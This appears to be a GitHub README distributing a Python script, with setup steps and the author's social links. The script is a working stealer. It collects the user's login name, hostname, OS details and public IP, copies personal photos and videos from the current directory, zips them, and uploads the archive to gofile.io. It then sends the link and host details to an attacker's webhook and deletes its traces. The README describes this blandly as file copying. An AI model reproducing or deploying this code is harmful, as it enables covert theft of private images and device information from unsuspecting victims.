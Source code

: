 # Usage Instructions for your Python Script

## Webhook Configuration

Replace `YOUR_WBK_URL` with your own webhook URL.

<details>
<summary>Click to view the code</summary>

```python
wh00k = "YOUR_WBK_URL"
```

</details>

## Python Script

<details>
<summary>Click to view the code</summary>

```python
wh00k = "YOUR_WBK_URL"

import os
import platform
import zipfile
import requests
import json
import shutil
import socket

COLOR_RED = "\033[91m"
COLOR_GREEN = "\033[92m" 
COLOR_MAGENTA = "\033[95m"


def adresse_ip():
    response = requests.get("https://ipinfo.io/json")
    ip_data = json.loads(response.text)
    return ip_data.get('ip', 'N/A')

informations = {
        "Utilisateur": os.getlogin() if os.name == "posix" else None,
        "nom d'hôte": socket.gethostname(),
        "Système d'exploitation": platform.system(),
        "Version du système d'exploitation": platform.release(),
        "Adresse IP": adresse_ip()
}

max_fichiers = 10 
count_per_directory = 0
max_go = 0.99 
dossier_img = "images"
if not os.path.exists(dossier_img):
    os.makedirs(dossier_img) 

def taille_dossier(dossier):
    total_size = 0
    with os.scandir(dossier) as it:
        for entry in it:
            if entry.is_file():
                total_size += entry.stat().st_size
            elif entry.is_dir():
                total_size += taille_dossier(entry.path)
    return total_size / (1024 * 1024 * 1024)

def copier(directory_path):
    global count_per_directory, dossier_img
    taille_images_gb = taille_dossier(dossier_img)
    for root, dirs, files in os.walk(directory_path):
        for file in files:
            if taille_images_gb > max_go:
                print(COLOR_MAGENTA + "[+] Recovered files, Downloading.")
                return 
            if count_per_directory >= max_fichiers:

                count_per_directory = 0
                dossier_img = "images"

            if file.lower().endswith(('.jpg', '.jpeg', '.mp4', '.mov')):
                source_path = os.path.join(root, file)
                destination_path = os.path.join(dossier_img, file)

                taille_mo = os.path.getsize(source_path) / (1024 * 1024)
                if taille_mo > 60:
                    print(COLOR_RED + f"[-] The {file} file exceeds the size limit (60 MB).")
                    continue 

                if os.path.abspath(source_path) != os.path.abspath(destination_path):
                    try:
                        shutil.copy(source_path, destination_path)
                        count_per_directory += 1
                        taille_images_gb = taille_dossier(dossier_img)
                        prcent = taille_images_gb*100
                        print(COLOR_GREEN + f"Images / videos found: {prcent:.2f} %")
                    except PermissionError as e:
                        print(COLOR_RED + "[*]")
                else:
                    print(COLOR_RED + "[-]")

repertoire_actuel = os.getcwd() 
copier(repertoire_actuel)

with zipfile.ZipFile("images.zip", "w", zipfile.ZIP_DEFLATED) as zipf:
        for root, dirs, files in os.walk(dossier_img):
            for file in files:
                zipf.write(os.path.join(root, file), file)


upload_url = "https://store1.gofile.io/uploadFile"

fichier_zip = "images.zip"

with open(fichier_zip, "rb") as file:
    files = {"file": file}

    response = requests.post(upload_url, files=files)

    if response.status_code == 200:
        data = response.json()

message = {
    "embeds": [
        {
            "title": "Images found on the device",
            "color": 000000000,
            "fields": [
                {"name": "User", "value": informations["Utilisateur"], "inline": True},
                {"name": "Host name", "value": informations["nom d'hôte"], "inline": True},
                {"name": "Operating system", "value": informations["Système d'exploitation"], "inline": True},
                {"name": "Version of operating system", "value": informations["Version du système d'exploitation"], "inline": True},
                {"name": "Ip adress", "value": informations["Adresse IP"], "inline": True},
                {"name": "ZIP file link", "value": data["data"]["downloadPage"], "inline": False}
            ]
        }
    ]
}
response = requests.post(wh00k, json=message)
print(COLOR_GREEN + "[++] Download complete.") 
shutil.rmtree(dossier_img)
os.remove("images.zip") 
```

</details>

## Running the Script

1. Configure the webhook URL as shown above.
2. Run the script in your Python environment.

## Important Notes

- This script copies image and video files from the specified directory to a destination folder.
- It then creates a ZIP file from the copied images and videos.
- Finally, it uploads the ZIP file to the specified file upload service and sends a notification via the webhook.

## subscribe !
<details>
    <summary>click to see my differents accouts</summary>
    
    - tiktok: https://tiktok.com/@douxx.py
    
    - discord: https://discord.gg/dXMnMsEuG4
    
    - github: https://github.com/douxxu
</details>

